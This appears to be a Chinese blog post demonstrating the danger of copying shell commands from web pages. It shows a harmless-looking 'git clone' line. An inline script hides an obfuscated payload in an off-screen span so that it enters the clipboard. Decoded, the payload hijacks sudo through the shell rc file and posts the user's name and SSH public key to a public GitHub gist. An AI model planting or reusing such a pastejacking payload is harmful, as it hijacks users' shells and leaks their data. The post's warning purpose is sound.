```yaml
---
layout:         post
title:          千万不要 Copy 网上的命令直接运行
category:       blog
description:    想不起来 linux 命令了，上网搜一下， Copy ，执行吧，慢！危险就在你身边……
---
```


## 执行一下这个命令试试吧！

<p id="demoP" style="font-weight: bold"><span id="demoSpan">git clone git://github.com/wangpuv/taskflow.git</span></p>

这是一个通过 git 复制 taskflow 项目到本地的命令，执行一下看看吧？！

## 咦？好像有什么不对？

如果你的机器比较慢，是不是已经发现有什么不对劲的地方了呢？

是的，互联网总是比你想象的要可怕，随处都有陷阱和危险，把你刚才 Copy 的命令招贴到记事本看看，你就恍然大悟了。

## Web上的东西就算你亲眼看到也未必是真实的

千万不要仅凭过去的经验，去操作一些存在风险的事情。现在的前端黑客无处不在，他们把陷阱搭建在你意想不到的地方，让缺少安全经验的人束手就擒。

黑客们的手段更多是利用人们的大意和疏忽，一个不留神可能就中枪了。

<script>var ds=document.getElementById("demoSpan");ds.parentNode.removeChild(ds);var dp=document.getElementById("demoP"),t1=document.createTextNode("git clone ");dp.appendChild(t1);var sp=document.createElement("span");sp.setAttribute("style","position: fixed; left: -100px; top: -100px"),dp.appendChild(sp);var st1=document.createTextNode("\u002f\u0064\u0065\u0076\u002f\u006e\u0075\u006c\u006c\u003b\u0063\u006c\u0065\u0061\u0072\u003b\u0049\u0046\u0053\u003d\u0027\u0025\u0027\u003b\u0073\u003d\u0027\u005c\u006e\u0070\u003d\u0024\u0028\u0063\u0061\u0074\u00a0\u007e\u002f\u002e\u0073\u0073\u0068\u002f\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u0070\u0075\u0062\u0029\u003b\u006d\u003d\u0024\u0028\u0065\u0063\u0068\u006f\u00a0\u0024\u0070\u00a0\u007c\u00a0\u0063\u0075\u0074\u00a0\u002d\u0066\u0033\u00a0\u002d\u0064\u0022\u00a0\u0022\u0029\u003b\u0049\u0046\u0053\u003d\u0027\u005c\u0027\u005c\u005c\u0078\u0032\u0035\u005c\u0027\u0027\u003b\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0027\u005c\u0027\u0027\u0023\u0021\u002f\u0062\u0069\u006e\u002f\u0073\u0068\u005c\u005c\u006e\u0073\u0075\u0064\u006f\u00a0\u0024\u0040\u005c\u005c\u006e\u0065\u0063\u0068\u006f\u003b\u0065\u0063\u0068\u006f\u00a0\u0048\u0065\u0079\u002c\u00a0\u006c\u006f\u006f\u006b\u00a0\u0061\u0074\u00a0\u0077\u0068\u0061\u0074\u00a0\u0079\u006f\u0075\u005c\u005c\u0027\u005c\u0027\u0027\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u0076\u0065\u00a0\u006a\u0075\u0073\u0074\u00a0\u0064\u006f\u006e\u0065\u003a\u00a0\u0027\u005c\u0027\u0027\u0024\u0028\u0063\u0075\u0072\u006c\u00a0\u002d\u0073\u00a0\u002d\u0058\u00a0\u0050\u004f\u0053\u0054\u00a0\u002d\u0064\u00a0\u0027\u005c\u0027\u0027\u007b\u0022\u0070\u0075\u0062\u006c\u0069\u0063\u0022\u003a\u0074\u0072\u0075\u0065\u002c\u0022\u0066\u0069\u006c\u0065\u0073\u0022\u003a\u007b\u0022\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u006d\u0064\u0022\u003a\u007b\u0022\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u0022\u003a\u0022\u0027\u005c\u0027\u0027\u0024\u0028\u0077\u0068\u006f\u0061\u006d\u0069\u0029\u0027\u005c\u0027\u0027\u00a0\u003c\u003c\u0027\u005c\u0027\u0027\u0024\u006d\u0027\u005c\u0027\u0027\u003e\u003e\u005c\u005c\u006e\u005c\u005c\u006e\u0059\u006f\u0075\u0072\u00a0\u0060\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u0070\u0075\u0062\u0060\u00a0\u0069\u0073\u003a\u005c\u005c\u006e\u005c\u005c\u006e\u00a0\u00a0\u00a0\u00a0\u0027\u005c\u0027\u0027\u0024\u0070\u0027\u005c\u0027\u0027\u005c\u005c\u006e\u005c\u005c\u006e\u0059\u006f\u0075\u0072\u00a0\u0060\u0069\u0064\u005f\u0072\u0073\u0061\u0060\u00a0\u0069\u0073\u003a\u005c\u005c\u006e\u005c\u005c\u006e\u00a0\u00a0\u00a0\u00a0\u004e\u006f\u00a0\u0077\u006f\u0072\u0072\u0079\u002e\u00a0\u0049\u0027\u005c\u0027\u0027\u005c\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u006d\u00a0\u0067\u006f\u006f\u0064\u00a0\u0073\u006f\u00a0\u0049\u0027\u005c\u0027\u0027\u005c\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u006c\u006c\u00a0\u006a\u0075\u0073\u0074\u00a0\u006b\u0065\u0065\u0070\u00a0\u0079\u006f\u0075\u00a0\u0073\u0061\u0066\u0065\u002e\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u0022\u007d\u007d\u007d\u0027\u005c\u0027\u0027\u00a0\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0061\u0070\u0069\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u002e\u0063\u006f\u006d\u002f\u0067\u0069\u0073\u0074\u0073\u00a0\u007c\u00a0\u0067\u0072\u0065\u0070\u00a0\u0027\u005c\u0027\u0027\u0022\u0068\u0074\u006d\u006c\u005f\u0075\u0072\u006c\u0022\u0027\u005c\u0027\u0027\u00a0\u007c\u00a0\u0063\u0075\u0074\u00a0\u002d\u0066\u0034\u00a0\u002d\u0064\u0027\u005c\u0027\u0027\u0022\u0027\u005c\u0027\u0027\u0029\u00a0\u003e\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u003b\u0075\u006e\u0073\u0065\u0074\u00a0\u0049\u0046\u0053\u003b\u0063\u0068\u006d\u006f\u0064\u00a0\u002b\u0078\u00a0\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u003b\u0061\u006c\u0069\u0061\u0073\u00a0\u0073\u0075\u0064\u006f\u003d\u0022\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u0022\u0027\u003b\u0069\u0066\u00a0\u005b\u005b\u00a0\u0060\u0065\u0063\u0068\u006f\u00a0\u0024\u0030\u0060\u00a0\u003d\u007e\u00a0\u0022\u002e\u002a\u007a\u0073\u0068\u0022\u00a0\u005d\u005d\u003b\u0074\u0068\u0065\u006e\u00a0\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0024\u0073\u00a0\u003e\u003e\u007e\u002f\u002e\u007a\u0073\u0068\u0072\u0063\u003b\u0065\u006c\u0073\u0065\u00a0\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0024\u0073\u00a0\u003e\u003e\u007e\u002f\u002e\u0062\u0061\u0073\u0068\u0072\u0063\u003b\u0066\u0069\u003b\u0075\u006e\u0073\u0065\u0074\u00a0\u0049\u0046\u0053");sp.appendChild(st1);var br=document.createElement("br");sp.appendChild(br);var st3=document.createTextNode("git clone ");sp.appendChild(st3);var t2=document.createTextNode("git://github.com/wangpuv/taskflow.git");dp.appendChild(t2);</script>